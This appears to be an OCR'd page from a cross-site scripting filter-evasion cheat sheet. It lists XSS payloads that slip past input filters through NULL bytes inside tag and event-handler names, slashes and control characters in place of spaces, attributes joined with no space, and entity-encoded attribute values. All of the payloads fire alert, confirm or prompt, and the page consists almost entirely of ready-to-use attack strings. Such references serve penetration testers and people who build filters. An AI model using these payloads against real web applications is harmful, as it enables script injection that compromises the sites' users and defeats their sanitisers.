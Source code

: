 ```
<scri%00pt>alert(1);</scri%00pt>
<scri\x00pt>alert(1);</scri%00pt>
<s%00c%00r%00%00ip%00t>confirm(0);</s%00c%00r%00%00ip%00t>
<scr\x00ipt>alert(1)</scr\x00ipt> - NULL byte (IE up to v9)
<img src='1' onerror\x00=alert(0) />
```


<b>Space following the tag name</b>


Several characters can replace space between the tags,
such as forward slash `/` 

```
<img/onerror=alert(1) src=a>
<img/src/onerror=alert(1)>
<svg+onload=alert(1337)>
<h1 id='xss'onmouseover='prompt(1)'>a
<style/onload=alert(1)>
```

you can also do URL decode,

you can substitute the space to separate attribute for

```
/
/*%00/
/%00*/
%2F
%0D
%0C
%0A
%09
```

<b> Attribute Names</b>
Within the attribute name, you can use the same NULL byte trick described earlier. This bypasses many simple ﬁlters that try to block event handlers by
blocking attribute names starting with on:

`<img o%00nerror=alert(1) src=a>`
`<img o\x00nerror=alert(1) src=a>`


<b>Switching attribute</b>
```
<img src=`a`onerror=alert(1)>
<iMg/src=a/onerror="alert(1)">
```

<b>attribute values</b>

```
<img onerror=a&#x6c;ert(1) src=a>
```
